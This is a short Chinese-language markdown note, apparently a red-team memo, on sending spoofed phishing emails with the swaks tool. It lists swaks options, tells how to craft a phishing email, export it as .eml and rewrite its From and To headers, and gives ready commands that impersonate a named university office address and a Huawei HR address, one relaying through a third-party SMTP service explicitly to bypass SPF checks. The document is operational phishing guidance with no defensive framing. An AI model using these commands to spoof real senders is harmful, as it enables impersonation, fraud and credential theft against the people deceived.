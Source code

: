 https://www.freebuf.com/articles/system/238215.html



# 实践

## swaks使用

```bash
--from test@qq.com 				//发件人邮箱；

--ehlo qq.com 					//伪造邮件ehlo头，填发件人邮箱的域名

--body "http://www.baidu.com" 	//引号中的内容即为邮件正文

--header "Subject:hello" 		//邮件头信息，subject为邮件标题

--data test.eml      //将正常源邮件的内容保存作为正常邮件发送

--server mail.smtp2go.com -p 2525 -au 用户名  -ap 密码  //邮箱服务器代发，用于绕过SPF
```



## 基本流程

自己用邮箱编辑好钓鱼邮件，然后先发送给自己，然后查看已发送邮件，点击导出为eml文件：

![image-20231110215714713](../images/image-20231110215714713.png)

编辑eml文件，删除from值之前的信息，然后修改From和To的内容（这两是看到的收件人和发件人）

![image-20231110213433252](../images/image-20231110213433252.png)

使用如下命令发送

无SPF

```bash
swaks --to xxx@qq.com --from jiaowuchu@swust.edu.cn --data aaa.eml --ehlo jiaowuchu@swust.edu.cn
```

效果

![image-20231110212839506](../images/image-20231110212839506.png)

邮件原文

![image-20231110213412228](../images/image-20231110213412228.png)



有SPF

```bash
# kali中自带
swaks --to xxx@qq.com --from hr@huawei.com --data aaa.eml --server mail.smtp2go.com -p 2525 -au <username> -ap <password>
```
